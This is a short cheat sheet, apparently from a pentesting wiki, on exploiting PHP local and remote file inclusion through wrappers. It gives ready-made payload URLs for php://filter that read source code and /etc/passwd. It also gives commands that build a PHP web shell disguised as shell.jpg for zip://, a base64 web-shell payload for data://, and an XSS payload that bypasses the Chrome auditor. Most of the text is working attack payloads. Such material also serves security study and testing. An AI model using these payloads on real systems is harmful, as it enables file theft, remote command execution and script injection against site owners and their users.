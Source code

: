 ## LFI / RFI using PHP wrappers

### Wrapper php://filter

#### Base64 and rot13

The part "php://filter" is case insensitive

```text
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

#### zlib \(compression\)

Can be chained with a **compression** wrapper for large files.

```text
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

To read the comppression data you need to decode the base64 and read the resulting data using:

```bash
php -a #Starts a php console
readfile('php://filter/zlib.inflate/resource=test.deflated');
```

**NOTE: Wrappers can be chained**

### Wrapper zip://

Upload a Zip file with a PHPShell inside and access it.

```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

### Wrapper data://

```text
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`
